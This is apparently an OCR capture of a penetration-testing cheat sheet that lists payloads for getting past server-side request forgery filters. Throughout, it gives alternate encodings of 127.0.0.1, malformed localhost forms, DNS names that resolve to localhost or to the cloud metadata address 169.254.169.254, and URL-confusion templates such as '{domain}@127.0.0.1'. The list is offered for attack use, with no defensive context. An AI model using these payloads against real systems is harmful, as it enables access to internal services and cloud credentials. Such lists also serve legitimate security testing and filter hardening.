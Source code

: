 ```bash
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# <https://www.silisoftware.com/tools/ipconverter.php>

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
<http://0/>
<http://127.1>
<http://127.0.1>

# DNS to localhost
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
<http://customer1.app.localhost.my.company.127.0.0.1.nip.io>
<http://bugbounty.dod.network> = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

#### various bypasses

```xml
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
```